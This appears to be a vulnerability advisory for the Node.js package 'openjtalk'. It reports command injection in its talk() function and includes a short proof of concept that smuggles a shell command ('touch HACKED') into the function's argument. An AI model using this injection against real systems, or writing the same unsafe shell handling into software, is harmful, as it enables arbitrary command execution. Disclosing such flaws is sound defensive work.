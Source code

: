 # Overview

`openjtalk` is a free japanese speech synthesis tool in Nodejs.
Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the key values, using the `talk()` fucntion.

# Proof of Concept

```js
var OpenJTalk = require('openjtalk');
var mei = new OpenJTalk();
mei.talk(' "; touch HACKED; #//');
```
